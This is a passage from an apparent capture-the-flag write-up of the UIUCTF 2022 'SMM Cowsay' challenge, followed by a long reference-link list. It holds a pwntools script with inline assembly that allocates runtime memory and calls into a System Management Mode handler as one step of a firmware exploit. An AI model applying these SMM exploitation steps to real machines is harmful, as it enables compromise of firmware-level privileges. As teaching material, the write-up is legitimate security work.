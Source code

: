 In fact, looking at the code for `Binexec.efi` above, in the `Cowsay()` function
the `EFI_SMM_COMMUNICATE_HEADER` is actually allocated using the library
function `AllocateRuntimeZeroPool()`. We don't have a nice pointer to this
function, but can allocate memory using either `BootServices->AllocatePool()` or
`BootServices->AllocatePages()` specifying the "type" of memory we want to
allocate. The `EFI_MEMORY_TYPE` we want is
[the type `EfiRuntimeServicesData`][edk2-EfiRuntimeServicesData], which will be
accessible from SMM.

```python
EfiRuntimeServicesData = 6

code = asm(f'''
    /* AllocatePool(EfiRuntimeServicesData, 0x1000, &buffer) */
    mov rcx, {EfiRuntimeServicesData}
    mov rdx, 0x1000
    lea r8, qword ptr [rip + buffer]
    mov rax, {AllocatePool}
    call rax

    test rax, rax
    jnz fail

    mov rax, qword ptr [rip + buffer]
    ret

fail:
    ud2

buffer:
''')
conn.sendline(code.hex().encode() + b'\ndone')

conn.recvuntil(b'RAX: 0x')
buffer = int(conn.recvn(16), 16)
log.success('Allocated buffer @ 0x%x', buffer)

code = asm(f'''
    /* Copy data into allocated buffer */
    lea rsi, qword ptr [rip + data]
    mov rdi, {buffer}
    mov rcx, 0x20
    cld
    rep movsb

    /* Communicate(mSmmCommunication, buffer, NULL) */
    mov rcx, {mSmmCommunication}
    mov rdx, {buffer}
    xor r8, r8
    mov rax, {Communicate}
    call rax

    test rax, rax
    jnz fail
    ret

fail:
    ud2

data:
    .octa {gEfiSmmCowsayCommunicationGuid} /* Buffer->HeaderGuid */
    .quad 8                                /* Buffer->MessageLength */
    .quad 0x44440000                       /* Buffer->Data */
''')
```

[smm1]: #smm-cowsay-1
[smm2]: #smm-cowsay-2
[smm3]: #smm-cowsay-3
[expl1]: https://github.com/TowerofHanoi/towerofhanoi.github.io/blob/master/writeup_files/uiuctf-2022_smm-cowsay/expl_smm_cowasy_1.py
[expl2]: https://github.com/TowerofHanoi/towerofhanoi.github.io/blob/master/writeup_files/uiuctf-2022_smm-cowsay/expl_smm_cowasy_2.py
[expl3]: https://github.com/TowerofHanoi/towerofhanoi.github.io/blob/master/writeup_files/uiuctf-2022_smm-cowsay/expl_smm_cowasy_3.py
[tweet]:                               https://twitter.com/MeBeiM/status/1554849894237609985
[uiuctf]:                              https://ctftime.org/event/1600/
[uiuctf-archive]:                      https://2022.uiuc.tf/challenges
[author]:                              https://github.com/zhuyifei1999
[wiki-smm]:                            https://en.wikipedia.org/wiki/System_Management_Mode
[intel-sdm]:                           https://www.intel.com/content/www/us/en/developer/articles/technical/intel-sdm.html
[uefi-spec]:                           https://uefi.org/specifications
[uefi-spec-pdf]:                       https://uefi.org/sites/default/files/resources/UEFI_Spec_2_9_2021_03_18.pdf
[man-cowsay]:                          https://manned.org/cowsay.1
[man-pahole]:                          https://manned.org/pahole.1
[x64-call]:                            https://docs.microsoft.com/en-us/cpp/build/x64-calling-convention?view=msvc-170
[x86-rsm]:                             https://www.felixcloutier.com/x86/rsm
[x86-rdrand]:                          https://www.felixcloutier.com/x86/rdrand
[gh-pwntools]:                         https://github.com/Gallopsled/pwntools
[gh-ropgadget]:                        https://github.com/JonathanSalwan/ROPgadget
[gh-edk2]:                             https://github.com/tianocore/edk2
[gh-edk2-securityex]:                  https://github.com/jyao1/SecurityEx
[gh-qemu]:                             https://github.com/qemu/qemu
[qemu-memtxattrs]:                     https://github.com/qemu/qemu/blob/v7.0.0/include/exec/memattrs.h#L35
[edk2-SystemTable]:                    https://edk2-docs.gitbook.io/edk-ii-uefi-driver-writer-s-guide/3_foundation/33_uefi_system_table
[edk2-SmiHandlerRegister]:             https://github.com/tianocore/edk2/blob/7c0ad2c33810ead45b7919f8f8d0e282dae52e71/MdeModulePkg/Core/PiSmmCore/Smi.c#L213
[edk2-EfiRuntimeServicesData]:         https://github.com/tianocore/edk2/blob/0ecdcb6142037dd1cdd08660a2349960bcf0270a/BaseTools/Source/C/Include/Common/UefiMultiPhase.h#L25
[edk2-SmmCommunicationCommunicate]:    https://github.com/tianocore/edk2/blob/1774a44ad91d01294bace32b0060ce26da2f0140/MdeModulePkg/Core/PiSmmCore/PiSmmIpl.c#L110
[edk2-EFI_SMM_COMMUNICATION_PROTOCOL]: https://github.com/tianocore/edk2/blob/1774a44ad91d01294bace32b0060ce26da2f0140/MdeModulePkg/Core/PiSmmCore/PiSmmIpl.c#L267
[edk2-copy-msg]:                       https://github.com/tianocore/edk2/blob/1774a44ad91d01294bace32b0060ce26da2f0140/MdeModulePkg/Core/PiSmmCore/PiSmmIpl.c#L547
[edk2-smi-entry]:                      https://github.com/tianocore/edk2/blob/1774a44ad91d01294bace32b0060ce26da2f0140/UefiCpuPkg/PiSmmCpuDxeSmm/X64/SmiEntry.nasm#L89
[edk2-gadget]:                         https://github.com/tianocore/edk2/blob/1774a44ad91d01294bace32b0060ce26da2f0140/MdePkg/Library/BaseLib/X64/LongJump.nasm#L54
[edk2-MdePkg]:                         https://github.com/tianocore/edk2/blob/1774a44ad91d01294bace32b0060ce26da2f0140/MdePkg/MdePkg.dec
[edk2-buffer-check]:                   https://github.com/tianocore/edk2/blob/7c0ad2c33810ead45b7919f8f8d0e282dae52e71/MdePkg/Library/SmmMemLib/SmmMemLib.c#L163
[edk2-gdt]:                            https://github.com/tianocore/edk2/blob/2812668bfc121ee792cf3302195176ef4a2ad0bc/UefiCpuPkg/PiSmmCpuDxeSmm/X64/SmiException.nasm#L31
